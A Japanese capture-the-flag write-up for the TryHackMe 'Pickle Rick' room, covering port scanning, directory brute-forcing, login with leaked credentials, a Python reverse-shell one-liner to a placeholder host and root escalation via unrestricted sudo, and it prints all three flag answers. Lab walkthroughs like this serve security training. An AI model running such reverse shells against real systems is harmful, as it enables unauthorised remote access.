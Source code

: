 # Pickle Rick | TryHackMe
> A Rick and Morty CTF. Help turn Rick back into a human!

level -> Easy

使ったツール･コマンド
1. nmap
2. gobuster
3. python3
4. netcat

まずはIPを設定しておく

`export IP=machine_ip_adress`

## Task1, What is the first ingredient that Rick needs?
ピクルスを人間に戻すための素材を見つけるらしい(?
どのポートが空いているのか確認

`nmap -sV -sC $IP`

結果をみると80と22が空いているらしいので80を見に行く
いろいろあるがページのソースを見てみる
丁寧にユーザーネームが書いてある

`Username: R1ckRul3s`

先程のユーザーネームを打つところを探す
gobusterで他のものを探す

`gobuster dir -w common.txt -u http://$IP -x php,html,txt`

robots.txtとportal.phpを見つけた
robots.txtには意味不明な文字列

`Wubbalubbadubdub`

portal.phpはなにかのログイン画面のよう
ユーザーネームはさっきの奴だとして、パスワードらしきもの見つからなかったのでrobots.txtの文字列をパスワード代わりに使ってみる

```
username: R1ckRul3s
password: Wubbalubbadubdub
```

初見でこれがパスワードってわかった人凄すぎる(はじめは知らんかった
さっそくページのソースを見てみる
意味深なBase64を発見

` Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==`

これは全く関係ないが気になる人は7回重ねてデコードしてみるといい(まじでおすすめ
とりあえずリバースシェルを試してみる(Python3で
別の端末を開いてnetcatでリッスンしておく
自分でPORTの部分はせていしてね

`nc -lnvp PORT`

下のpython3をCommand Panelに打つ
IPADDRESSとPORTは自分で設定してね

`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IPADDRESS",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'`

つながったらlsしてみる

`ls -la`

Sup3rS3cretPickl3Ingred.txtが気になったのでcatで見てみる

`cat Sup3rS3cretPickl3Ingred.txt`

1つ目の素材をつけた
### *mr. meeseek hair*

## Task2, What is the second ingredient in Rick’s potion?
ポーションの素材を探す
とりあえずホームディレクトリに移動して誰がいるのか確認

`cd /home`

rickを見つけたのでrickのホームディレクトリに移動してlsしてみる

`cd rick ; ls -la`

second ingredientsを見つけたのでcatで見てみる

`cat second\ ingredients`

2つ目の素材を見つけた
### *1 jerry tear*

## Task3, What is the last and final ingredient?
3つ目を探す
最後なので/rootにあるだろうから権限を昇格する
sudoできるコマンドがあるか調べる

`sudo -l`

(ALL) NOPASSWD: ALLだそうです(勝ちです
とりあえずrootになっておく

`sudo su`

これで/rootに移動できるようになったので移動

`cd /root`

移動できたらlsしてみる

`ls -la`

3rd.txtをcatする

`cat 3rd.txt`

3つ目の素材を見つけた
### *fleeb juice*

これでこのルームは終わり
このルームで見つけた素材3つでピクルスを人間に戻せるらしいです(?
